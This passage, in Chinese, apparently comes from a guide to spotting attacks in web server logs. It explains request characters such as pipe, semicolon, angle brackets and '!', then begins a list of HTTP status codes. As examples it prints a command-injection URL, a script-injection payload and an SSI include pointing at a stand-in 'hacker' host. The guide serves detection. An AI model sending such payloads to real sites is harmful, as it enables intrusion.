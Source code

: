 ### "|"请求

这是个管道字符，在 unix 系统用于帮助在一个请求中同时执行多个系统命令。

```
例如：#cat access_log│ grep -i ".."
```

（这个命令将显示日志中的".."请求，常用于发现攻击者和蠕虫攻击）

```
http://localhost/vuln/fi/?page=cat%20access_log│ grep%20-i%20".." 
```

这个请求 cat 命令的执行并且 grep 命令也将执行，查询出”.."

### ";" 请求 

在 unix 系统，这个字符允许多个命令在一行执行 

```
Example: 
# id;uname -a 
（执行 id 命令后，紧跟着执行 uname 命令） 
```

### "<" 和 ">" 请求 

应该检查你的日志记录中这两个字符，众多的原因中，首要的一个是这个字符表明了添加数据在文件中 

```
例如： 
# echo "test" >> /test （请求写信息在test 这个文件中) 
```

也可以利用这两个字符来篡改页面，例如：

```
http://localhost/vuln/fi/?name=<script>alert(1)</script>
```

### "!"请求

这种字符请求常用于对 SSI(Server Side Include) 进行攻击，可以用于欺骗用户点击被攻击者设定的连接。

```
例如：http://localhost/vuln/fi/?name=<!%20--#include%20file=" http://hacker/hack.html" -->
```

## 状态码详解

基本上可以分为五类：

### 1xx 为消息类，该类状态代码用于表示服务器临时回应

* 100 Continue 表示初始的请求已经被服务器接受，浏览器应当继续发送请求的其余部分
* 101 Switching Protocols 服务器将遵从客户的请求转换到另外一种协议。
